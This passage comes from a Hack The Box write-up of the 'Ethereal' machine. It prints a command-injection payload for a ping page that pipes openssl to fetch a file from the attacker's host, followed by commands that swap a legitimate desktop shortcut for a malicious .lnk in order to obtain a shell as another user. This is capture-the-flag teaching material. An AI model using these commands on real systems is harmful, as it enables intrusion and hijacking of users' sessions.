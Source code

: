 ![](/images/hackthebox/ethereal/54.png)
<br> Then on the ping page we will type this :
`10.10.xx.xx | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.xx.xx:136 > "C:\Users\Public\Desktop\Shortcuts\rick.lnk"`
<br> We will close the server , run the 2 servers and get our shell as alan like we did before , then we will delete the original lnk and copy ours with the name of the old lnk :
![](/images/hackthebox/ethereal/55.png)
<br>
<br>
`del "c:\users\public\desktop\shortcuts\Visual Studio 2017.lnk" & copy "c:\users\public\desktop\shortcuts\rick.lnk" "c:\users\public\desktop\shortcuts\Visual Studio 2017.lnk" & dir c:\users\public\desktop\shortcuts`
![](/images/hackthebox/ethereal/56.png)
<br> Then we will close the 2 servers , run them again and wait for someone to execute the lnk file , after a minute we will get a shell as jorge :
![](/images/hackthebox/ethereal/57.png)
<br> With this we don't need to refresh any pages because the connection is not handled by the ping page anymore so the command will be piped immediately from the first server to the second server.